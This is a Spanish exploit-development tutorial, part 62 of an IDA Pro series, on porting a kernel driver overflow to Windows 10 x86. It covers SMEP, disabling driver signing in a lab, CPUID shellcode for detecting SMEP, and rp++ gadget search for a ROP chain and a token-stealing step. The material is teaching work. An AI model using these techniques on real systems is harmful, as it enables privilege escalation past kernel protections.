← Índice de los 69 tutes de IDA
Tute 62 · Variante en Windows 10 x86
se conecta con: Fuera de alcance
INTRODUCCIÓN AL REVERSING CON IDA PRO DESDE CERO PARTE 62.
WINDOWS 10
Retornamos después de las vacaciones con nuevos tutoriales, en este caso veremos la variante de explotación del mismo driver que vimos en Windows 7 de 32 bits, ahora en Windows 10 de 32 bits.
SMEP
La diferencia como dijimos esta en SMEP y que es eso, es la protección para evitar saltar de kernel a ejecutar páginas marcadas como user, como hacemos en los ejemplos que vimos hasta ahora que allocamos una página en user con permiso de ejecución, y cuando tomamos control de la misma saltamos allí donde está el shellcode directamente.
El que quiere profundizar sobre el tema smep, acá hay una muy buena explicación, está en ingles pero se entiende.
https://www.coresecurity.com/system/files/publications/2016/05/Windows%20SMEP%20bypass%20U%3DS.pdf

El bit 20 del registro de DEBUG cr4 es el que si esta prendido (1) habilita la protección SMEP, por lo tanto para que no funcione habrá que poner a cero (0) ese bit con algún rop, antes de saltar a ejecutar el bloque allocado en USER.

Allí vemos buf que era el buffer ejecutable creado en USER con permiso de ejecución donde luego saltamos directo a ejecutar cuando producimos el overflow y pisamos el return address.

Allí con la dirección del buffer de user pisábamos el return address y el
struct.pack("<L",0x0BAD0B0B0 )
Evitaba que siguiéramos copiando más abajo, ya que salía del loop y terminaba de copiar.

Antes que nada debemos decir que para que funcione Windows 10 como host de debugging de kernel, luego de instalar VKD como vimos en los capítulos anteriores y antes de reiniciar se debe tipear por única vez en una consola con permiso de administrador.
BCDEDIT /dbgsettings serial
Y ahí si, reiniciamos, otra cosa que verán es que al reiniciar les saldrá algo como esto.

Donde deberán apretar f8.
DESHABILITAR FIRMAS.

Y allí deshabilitar la firma de drivers a la fuerza, que impide cargar el driver de VKD además que nos permitirá cargar el driver para explotar que obviamente no está firmado.
En el caso de explotar un driver de algún programa o hardware estará firmado y cargara sin problemas.
Después de todo eso, arrancara el windbg y breakeara, seguimos apretando G, continuara la ejecución hasta que arranque el sistema.

Cargo el driver con OSRLOADER

Luego REGISTER SERVICE

Y luego START SERVICE.
Ya sabemos que si queremos probar los exploits en Python deberemos instalarlo en el target y ponerlo en las environment variables, sino habrá que compilarlo en C o C++ con el runtime embebido, lo cual corre sin problemas.
Ahora debemos
Agregar un ROP que deshabilite SMEP (se debería detectar la versión exacta de Windows y según cual sea, que el script use el rop específico para cada una, ya que será diferente en cada caso, este script que estoy haciendo como es solo para una versión exacta de Windows 10, no le funcionara al que lo pruebe en otro Windows)
Modificar el shellcode para robar el Token que usábamos en Windows 7, que aquí no funcionara porque las estructuras cambian un poco.
Recuerden que el ROP es relativo a la versión, en mi caso de ntoskrnl.exe en mi caso es 10.0.15063.483

Que corresponde a esta versión de Windows en otra versión no funcionara.

Por supuesto desde una consola de usuario normal se puede saber la versión de Windows por lo cual en un exploit profesional se detectara la misma y según cual sea se enviara el rop correcto para cada una.
Pero en mi caso lo hare solo para esa versión, no tengo ganas de trabajar tanto, jeje, ustedes para practicar pueden hacerlo.

Pondré un breakpoint al salir del loop, pero antes de quitar el windbg mirare el valor de los registers, luego de hacer debug-break.

Allí tenemos para ver los registros completos, también hay un comando que es r y algo mas para ver los debug registers, pero ahora me olvide los miro ahí jeje.

Vemos que el valor de cr4 es 6e9, y obvio el bit 20 esta deshabilitado, pero como puede ser si estoy en Windows 10, je.
Si paso a binario 0x6e9.
bin(0x6e9)
0b11011101001
Si el más bajo es el bit 0, es obvio que rellenando con ceros a la izquierda hasta completar los 32 bits.
0b000000000000000000000011011101001
El que está en negrita es el bit 20 y está a cero por lo cual en esta máquina puedo ejecutar sin tener problemas con SMEP.

Sospecho o de la versión vieja de VMWARE que no debe soportar SMEP, o por ahí la maquina HOST es muy vieja, por si acaso instale VMWARE 14 en una maquina más nueva y cuando repito el procedimiento con el mismo target de Windows 10

Bueno acá es otra cosa, si vemos ese valor en binario.
bin(0x1406e9)
'0b101000000011011101001'
Vemos que el bit 20 está a 1, así que aquí SMEP si está habilitado.
Hay alguna forma sin debuggear kernel o sea desde un programa en user saber si SMEP está habilitado?
shellcode ="\x33\xC9"shellcode += "\x33\xC0"shellcode += "\x33\xdb"shellcode += "\xb8\x07\x00\x00\x00" # "mov eax,7"shellcode += "\x0f\xa2" # "cpuid"shellcode += "\x8b\xc3" # "mov eax,ebx"shellcode += "\xc3" # "ret"
Ejecutando ese código en un programa en user mode me devuelve en EAX diferente valor si hay SMEP habilitado o no
Ahí puse a mano los registros a cero en vez de los XOR y escribí las dos instrucciones necesarias a ver que devuelve en EBX en la máquina que no tiene SMEP habilitado.

EBX devuelve 2
Preparo para hacer la prueba en otra máquina.

Vemos que EBX devuelve un valor muy diferente 0x001C2FBB

Haciendo AND de este resultado con 0x80
hex(0x80 & 0x001C2FBB)
'0x80'
hex(0x80 & 0x002)
'0x0'
Vemos que si el resultado da cero no hay SMEP y si da diferente de cero hay SMEP.
Se puede hacer esta pruebita desde Python? Veamos.
CPUID
Usando este módulo cpuid.
https://github.com/flababah/cpuid.py
Y poniéndolo en la misma carpeta del script

Me dará el valor de los registros el segundo es EBX que vale 2 en la maquina sin SMEP.

Me devuelve el valor en decimal que había obtenido antes.

Así que lo puedo agregar al inicio de mi script, para que detecte si tiene o no SMEP, ya que si no tiene no solo no es necesario ropear y se puede saltar directo al shellcode, sino que el rop que haremos que toca el flag de cr4, es mejor no tocarlo si no es necesario, aunque está a cero y quedara a cero, pero como el rop es personalizado conviene que si detecta que no hay smep salte directo al shellcode sin rop, lo cual lo hará mas general para los casos sin SMEP.
Bueno ya tenemos casi todo, nos falta el rop, shellcode y leakear la base de nt para poder ropear allí.
Ustedes dirán como obtengo los gadgets en kernel, con mona no se puede y el idasploiter no devuelve resultados aún en kernel, por lo cual no nos sirve.
https://drive.google.com/open?id=1VbN3kipWQe9ti7WGheGSmbG9xOn4uaQW
RP++
Allí hay una tool para buscar gadgets en forma estática, sea un módulo de kernel o lo que sea, le pasas el nombre y cuanto es el máximo largo de los gadgets y te busca todo conviene guardarlo en un archivo de texto para poder luego buscar con comodidad.

rp-win-x86.exe -f ntoskrnl.exe -r 5 > pepe.txt
Bueno con eso nos guardara todos los gadgets en un archivo de texto llamado pepe.txt
